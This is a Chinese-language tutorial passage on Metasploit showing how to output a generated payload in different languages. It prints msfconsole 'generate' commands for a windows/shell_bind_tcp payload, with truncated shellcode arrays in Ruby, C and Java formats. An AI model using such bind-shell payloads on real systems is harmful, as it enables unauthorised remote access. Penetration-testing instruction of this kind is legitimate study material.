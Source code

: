 ##### 转变输出风格（语言形成）

metasploit生成载荷的默认输出格式是ruby风格的，还可以转变输出格式风格为：
- perl
- C
- java

我们可以追加 ```-t``` 使用 NOP sled 。

例如：

```
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

使用C格式：

```
msf  payload(shell_bind_tcp) > generate -t c
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
 * InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
...snip...
```

使用java格式：

```
msf  payload(shell_bind_tcp) > generate -t java
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
 * InitialAutoRunScript=, AutoRunScript=
 */
byte shell[] = new byte[]
{
	(byte) 0xfc, (byte) 0xe8, (byte) 0x89, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x60, (byte) 0x89,
	(byte) 0xe5, (byte) 0x31, (byte) 0xd2, (byte) 0x64, (byte) 0x8b, (byte) 0x52, (byte) 0x30, (byte) 0x8b,
	(byte) 0x52, (byte) 0x0c, (byte) 0x8b, (byte) 0x52, (byte) 0x14, (byte) 0x8b, (byte) 0x72, (byte) 0x28,
	(byte) 0x0f, (byte) 0xb7, (byte) 0x4a, (byte) 0x26, (byte) 0x31, (byte) 0xff, (byte) 0x31, (byte) 0xc0,
	(byte) 0xac, (byte) 0x3c, (byte) 0x61, (byte) 0x7c, (byte) 0x02, (byte) 0x2c, (byte) 0x20, (byte) 0xc1,
...snip...
```
